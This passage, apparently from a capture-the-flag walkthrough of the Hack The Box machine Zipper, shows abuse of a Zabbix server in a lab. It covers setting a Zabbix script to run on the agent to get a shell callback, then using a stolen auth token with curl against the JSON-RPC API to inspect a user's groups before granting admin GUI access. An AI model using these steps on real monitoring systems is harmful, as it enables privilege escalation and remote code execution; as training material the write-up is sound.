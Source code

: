 ![1550615259766](https://0xdfimages.gitlab.io/img/1550615259766.png)

I’ll notice the “Execute on” option, which is currently on the server. I’ll change that to the agent. I’ll also change the name to 0xdf for good measure.

Now under Monitoring/Latest Data, I’ll update the filters so that I can see the hosts:

![1550622162802](https://0xdfimages.gitlab.io/img/1550622162802.png)

If I click on one of the hosts (Zipper, since that’s the one I want to target), I can see a list of scripts:

![1550622303610](https://0xdfimages.gitlab.io/img/1550622303610.png)

If I click 0xdf, I get a callback. I’ll need to use the two shell solution again, just like above.

### Path 4 - Change Users Via API

Once authenticated (see [API Overview](#api-overview) for details), there are several ways I could use the API to enable GUI admin access:
- Enable GUI access for zapper
- Add guest to admin group
- Create a new user that’s admin

All of these tasks would involve the [user api](https://www.zabbix.com/documentation/3.0/manual/api/reference/user).

#### Enable GUI for Zapper

I can use the [usergroup.get](https://www.zabbix.com/documentation/3.0/manual/api/reference/usergroup/get) api to get a list of the groups that zapper is in:

```

root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"usergroup.get", "id":1, "auth":"a8b49852bf6272f469281dd2c7a3bd91", "params":{"userids": "3"}}' | jq '.'
{
  "jsonrpc": "2.0",
  "result": [
    {
      "usrgrpid": "12",
      "name": "No access to the frontend",
      "gui_access": "2",
      "users_status": "0",
      "debug_mode": "0"
    }
  ],
  "id": 1
}

```

I can see that frontend access is banned, at `"gui_access": "2"`. I’ll change that:
